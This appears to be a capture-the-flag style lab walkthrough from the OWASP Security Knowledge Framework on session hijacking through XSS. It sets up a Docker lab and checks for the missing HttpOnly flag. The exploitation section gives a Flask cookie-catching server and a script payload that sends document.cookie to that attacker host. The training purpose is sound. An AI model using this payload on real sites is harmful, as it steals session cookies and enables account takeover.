






# HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-session-hijacking-xss
```


Now that the app is running let's go hacking!


## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.


username : admin\
password: admin




After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.


Refer to the XSS labs for more information how to test!


Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application



Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.





## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.



```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.



The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
